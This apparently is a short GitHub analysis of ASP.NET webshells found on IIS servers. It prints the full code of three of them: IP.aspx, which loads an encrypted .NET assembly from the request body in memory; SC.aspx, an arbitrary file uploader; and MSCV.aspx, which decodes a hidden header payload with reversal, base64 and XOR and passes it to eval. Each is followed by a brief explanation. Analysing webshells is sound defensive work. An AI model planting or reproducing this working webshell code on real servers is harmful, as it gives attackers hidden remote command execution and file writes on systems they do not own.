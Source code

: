 # webshell

Webshells analysis

# App.asbx

- Page_Load function: return environment variable "APP_POOL_ID" value when page is loaded and the "
- APP_POOL_ID : The name of the application pool that is running the IIS worker process handling the request
- Execute function: Creates a new cmd process "cmd.exe /c time /T" to get the current time
- Query function: Execute SQL query and return output
- Upload: Create File with data in temp folder and return path to file
- Fix: change file creation, last access, and last write time.

# IP.aspx

```c
*byte[] c=Request.BinaryRead(Request.ContentLength);*

*string asname=System.Text.Encoding.ASCII.GetString(new byte[] {0x53,0x79,0x73,0x74,0x65,0x6d,0x2e,0x52,0x65,0x66,0x6c,0x65,0x63,0x74,0x69,0x6f,0x6e,0x2e,0x41,0x73,0x73,0x65,0x6d,0x62,0x6c,0x79});//System.Reflection.Assembly*

*Type assembly=Type.GetType(asname);*

*MethodInfo load = assembly.GetMethod("Load",new Type[] {new byte[0].GetType()});*

*object obj=load.Invoke(null, new object[]{Decrypt(c)});*

*MethodInfo create = assembly.GetMethod("CreateInstance",new Type[] { "".GetType()});*

*string name = System.Text.Encoding.ASCII.GetString(new byte[] { 0x55 }); //U*

*object pay=create.Invoke(obj,new object[] { name });*

*pay.Equals(this);*
```

When the request is received, the binary in the request is read to memory, then it is decrypted with AES ECB algorithm, and the Load method of *System.Reflection.Assembly* is called to load the .NET binary in memory. After loading the binary, the *CreateInstance* method is called to get the binary instance, and finally, the “Equals” method is called from the binary.

# SC.aspx

```c
String filePath = String.IsNullOrEmpty(Request["filePath"])?Request.ServerVariables["APPL_PHYSICAL_PATH"]:Request["filePath"];

if(Request.Files.AllKeys.Length > 0){

foreach (string fileString in Request.Files.AllKeys){

HttpPostedFile file = Request.Files[fileString];

file.SaveAs(filePath + file.FileName);

Response.Write(filePath + file.FileName);

}

}else{

Response.Write(string.Format("<form action='' method='post' enctype='multipart/form-data'><input name='filePath' type='text' value='{0}' /><input name='file' type='file' /><input type='submit' value='submit'></form>",filePath));

}

%>
```

The websshell reads a list of file from the request and writ them to the machine in a specific path.

# MSCV.aspx

```c
*function xor(str)*

*{*

*var key = "cc17c30cd111c7215fc8f51f8790e0e1";*

*var ins = [];*

*for(var x=0;x<str.length;x++)*

*{*

*ins[x] = str[x] ^ key[x%32];*

*}*

*return ins;*

*}*

*function tt(str)*

*{*

*var c = str.ToCharArray();*

*var l = str.length;*

*var r = "";*

*for (var i = 0; i < l ; i++)*

*{*

*r = r + c[l - i - 1];*

*}*

*var eee = xor(System.Convert.FromBase64String(r));*

*return eee;*

*}*

*function un(str,rrr)*

*{*

*return "" + eval(System.Text.Encoding.GetEncoding("UTF-8").GetString(tt(Request.Item["ceshi"].substr(22))),str+rrr);*

*}*

*un('uns',"afe");*

*%>*
```

The payload is in in the header item “ceshi”. The payload starts at offset 22, it is read and passed to the “tt” function. The string is first reversed, then it is decoded using base64, and finally the xor function is called to decrypt the bytes and get the command to run in eval function to execute the command.